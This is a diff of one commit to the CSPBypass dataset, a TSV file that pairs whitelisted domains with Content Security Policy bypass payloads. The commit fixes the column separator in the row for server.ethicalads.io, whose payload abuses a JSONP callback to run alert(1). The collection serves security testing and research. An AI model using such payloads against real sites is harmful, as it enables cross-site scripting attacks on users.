

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Fix server.ethicalads.io

```diff
--- a/data.tsv
+++ b/data.tsv
-row 91: server.ethicalads.io <script src="https://server.ethicalads.io/api/v1/decision/?publisher=jsbin&ad_types=x&format=jsonp&div_ids=x&callback=alert(1)-"></script>
+row 91: server.ethicalads.io | <script src="https://server.ethicalads.io/api/v1/decision/?publisher=jsbin&ad_types=x&format=jsonp&div_ids=x&callback=alert(1)-"></script>
```
